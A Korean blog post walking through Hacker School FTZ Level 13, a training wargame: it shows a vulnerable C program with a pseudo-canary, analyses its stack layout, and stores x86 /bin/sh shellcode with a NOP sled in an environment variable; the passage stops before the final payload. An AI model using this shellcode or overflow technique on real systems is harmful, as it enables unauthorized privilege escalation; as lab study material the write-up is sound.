 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 13"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level13/1.jpg" | relative_url }}' alt='relative'>  

## 1) level13/have no clue 입력해 로그인  
 
<img data-action="zoom" src='{{ "assets/ftz/level13/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdlib.h>

main(int argc, char *argv[])
{
    long i=0x1234567;
    char buf[1024];

    setreuid( 3094, 3094 );
    if(argc > 1)
       strcpy(buf,argv[1]);

    if(i != 0x1234567) {
       printf(" Warnning: Buffer Overflow !!! \n");
       kill(0,11);
    }
}
```

코드를 살펴보니 유사 카나리 기법이 적용된 것 같습니다.  
buf 배열을 NOP으로만 채우면 i값을 비교하는 if 문에 의해 프로그램이 종료될 것입니다.  

그럼 해당 프로그램의 스택 구조를 살펴보겠습니다.  

## 2) 스택의 구조 살펴보기  

<img data-action="zoom" src='{{ "assets/ftz/level13/3.png" | relative_url }}' alt='relative'>  

tmp 디렉토리로 이동하여 hint 코드를 복사해 프로그램을 하나 만들어줍니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/4.png" | relative_url }}' alt='relative'>  

위 그림의 어셈블리어 코드를 살펴보면 buf 배열의 위치는 $ebp에서 1048 byte 떨어진 위치에 있습니다.  

그리고 $ebp-12 주소에 0x1234567 값이 저장되어 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level13/5.png" | relative_url }}' alt='relative'>  

스택을 도식화하면 위의 그림과 같습니다.  

## 3) 환경 변수에 쉘코드 저장하기  

환경 변수에 쉘코드를 저장하고 해당 환경 변수의 주소를 구하는 방법은 아래와 같습니다.  
환경 변수에 대한 내용과 쉘코드를 환경 변수에 저장하는 이유를 확인하기 위해 <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">level12</a> 내용을 확인해주세요.  

<img data-action="zoom" src='{{ "assets/ftz/level13/6.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

